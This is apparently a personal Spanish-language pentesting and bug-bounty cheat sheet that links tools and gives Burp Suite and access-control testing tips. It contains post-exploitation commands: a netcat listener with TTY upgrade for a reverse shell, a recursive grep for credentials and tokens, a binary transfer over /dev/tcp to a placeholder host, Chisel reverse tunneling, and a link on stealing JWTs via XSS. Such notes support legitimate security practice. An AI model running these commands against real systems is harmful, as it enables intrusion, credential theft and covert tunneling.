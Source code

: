 # Varias cositas  

## Comandos y funciones Bash utiles  

extractPorts  
https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2  

rmk  
https://gist.github.com/anibalardid/b2d4025152d913e398fcef6830d89cad  

mkt  
https://gist.github.com/anibalardid/6bbd0a8fefb507b88bc511d41ecd91ba  


## Diccionarios  

https://github.com/NullWin/DiccionarioArgentino  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  

### Borrado seguro de archivos  
scrub y shred  

### TMUX  
Oh My TMUX  
https://github.com/gpakosz/.tmux  

Cheat Sheet  
https://gist.github.com/anibalardid/d5db8be18cabafe9fc8eea28c3fae2f7  


### Steghide - Esteganografía  
Buscar contenido en las imágenes  

http://steghide.sourceforge.net/  
https://fwhibbit.es/steghide-brute-force-tool  
https://github.com/Va5c0/Steghide-Brute-Force-Tool  
https://github.com/Paradoxis/StegCracker  


### Encodear (encoding) de payloads para pruebas  
CyberChef  
https://gchq.github.io/CyberChef/  

### Buscar directorios y subdominios con Burp Suite Pro
Extensiones interesantes a instalar en Burp Suite:  
```
XSS Validator
Software Vulnerability Scanner
Replicator
NoSQLi Scanner
JavaScript Security
Flow
Error Message Checks
CSRF Scanner
CMS Scanner
Burp Bounty
Autowasp
```

1- Abrir proxy y cargar sitio  
2- Ir a Target - Scope -> cambiar a modo avanzado y escribir solo una parte de la url, por ejemplo "hilton" , y luego poner NO  
3- Ir a Sitemap, tocar en la barra de Filter, y tildar "show only in scope items"  
4- Señalar todos los dominios, boton derecho, Scan  
5- Elegir opcion "Crawl", luego en SCAN CONFIGURATION -> select from library , agregar "crawl strategy faster" y "never stop..."  
6- En Resource pool, poner un maximo de request , por ej 50, que grabe , y darle a OK   
7- En Dashboard se puede ver el progreso de escaneo.  
8- En la solapa Flow tambien se puede ver el progreso, si no se tiene se instala de Extended -> BApp Store  


### Pasos The Bug Hunter's Methodology Full 2-hour Training by Jason Haddix  

- Búsqueda subdominios
amass, subfinder  

- Github Dorks
GitDorker: 
https://obheda12.medium.com/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5  
https://github.com/obheda12/GitDorker  
Hunter.sh:  
https://gist.github.com/anibalardid/9787094b9c642eadd217c7b6dd6dbfac  
  
Github Search :  
https://github.com/gwen001/github-search  

- Verificar subdominios  y dominios activos
httprobe:  
https://github.com/tomnomnom/httprobe  


--- 

### Broken Access Control
Tips de El Mago

ejemplo de writeup    
https://galnagli.com/Samsung_Exposure/  
https://notifybugme.medium.com/unauthorized-access-to-admin-setpassword-page-by-bypass-403-forbidden-f10bbb92ab35  

### Tips  
crear 2 cuentas , comun y otra para admin (usando + o . , o mails temporales)  
usar match and replace de burp suite  
reemplazar false x true y true x false  (proxy, options, match and replace, como response body)  
leer los archivos js  
probar cambiar verbo/metodos  

Extension multi account container  

se le puede dar acceso a la cuenta desde un usuario a otro  
y vemos q hay opciones q no se ven  
en el burp, en proxy history, boton derecho - repeater  
hacemos lo mismo con un request del otro usuario   
probamos cambiar los authorization headers entre los requests  
e ir probando 1 x 1 varios endpoints  

Se puede automatizar, instalando desde BApp Store  : Authorize   

robar x xss sesion de jwt de localstorage   
https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0   


### Encode 
Para usar xss, se puede encodear el código como unicode. 


## Como usar Burp Suite

### Configuración inicial
1) Instalar en el browser Foxy Proxy (o configurar a mano el proxy)
2) La config del proxy se encuentra en Proxy - Options 
3) Exportar el archivo del certificado .der
4) Importar certificado en el browser, en la sección de entidades , debe preguntar opciones al importar
5) Probar encender el proxy y cargar una web https para probar q funcione el certificado
6) En Burp en Proxy - Intercept , si esta en ON, podremos ir viendo los requests y responses, avanzando con el boton de Forward

### Uso Básico
1) Encender proxy
2) Poner Intercept en Off , hasta que querramos empezar a interceptar
3) Ir a la solapa TARGET y en Scope especificar la url, o con la opcion Avanzada elegir un regex
4) Luego en Proxy, ir a Opciones, y ahi poner AND en las opciones de Intercept Client Request
5) 




